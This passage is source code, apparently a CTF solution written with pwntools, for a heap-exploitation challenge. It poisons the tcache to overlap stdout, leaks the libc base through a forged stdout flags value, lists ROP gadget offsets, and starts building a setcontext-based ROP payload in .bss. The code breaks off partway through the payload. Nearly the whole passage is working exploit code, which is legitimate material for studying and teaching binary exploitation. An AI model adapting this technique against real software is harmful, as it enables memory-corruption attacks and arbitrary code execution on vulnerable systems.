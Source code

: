 ```python
    p.sendlineafter('> ', str(3))
    p.sendlineafter(': ', str(idx))
    p.sendafter(': ', note)

# stage1: tcache poisoning to free stdout 
create(0, 0x200, b'aaaa')
create(1, 0x200, b'aaaa')
create(2, 0x200, b'aaaa')
delete(2)
delete(1)
delete(0)
edit(0, p64(0x4040a0))

# stage2: leak libc base from stdout
create(0, 0x200, b'aaaa')
create(1, 0x200, b'\xa0')
create(2, 0x200, p64(0xfbad1800) + b'\x00' * 25)
libc_leak = u64(p.recvuntil(b'done')[0x8:0x10])
libc_base = libc_leak - 2013568
log.info(f'libc base : 0x{libc_base:x}')
free_hook = libc_base + libc.sym['__free_hook']

setcontext = libc_base + 0x580dd
call_rdx = libc_base + 0x154930
pop_rax = libc_base + 0x4a550
pop_rdx_r12 = libc_base + 0x11c371
pop_rdi = libc_base + 0x26b72
pop_rsi = libc_base + 0x27529
xchg_eax_edi = libc_base + 0x2ad2b
syscall = libc_base + 0x66229

sleep(0.3)

# stage3: write rop payload in bss
bss = 0x404100

create(0, 0x200, b'aaaa')
create(1, 0x200, b'aaaa')
delete(1)
delete(0)
edit(0, p64(bss))
create(0, 0x200, b'aaaa')

payload = b''
payload += p64(0)
payload += p64(bss)
payload += p64(0)
payload += p64(0)
payload += p64(setcontext)

payload += p64(0)                 # <-- [rdx + 0x28] = r8
payload += p64(0)                 # <-- [rdx + 0x30] = r9
payload += b'a' * 0x10            # padding
payload += p64(0)                 # <-- [rdx + 0x48] = r12
payload += p64(0)                 # <-- [rdx + 0x50] = r13
payload += p64(0)                 # <-- [rdx + 0x58] = r14
payload += p64(0)                 # <-- [rdx + 0x60] = r15
payload += p64(bss + 0x158)       # <-- [rdx + 0x68] = rdi
payload += p64(0)                 # <-- [rdx + 0x70] = rsi
payload += p64(0)                 # <-- [rdx + 0x78] = rbp
payload += p64(0)                 # <-- [rdx + 0x80] = rbx
payload += p64(0)                 # <-- [rdx + 0x88] = rdx 
payload += b'a' * 8               # padding
```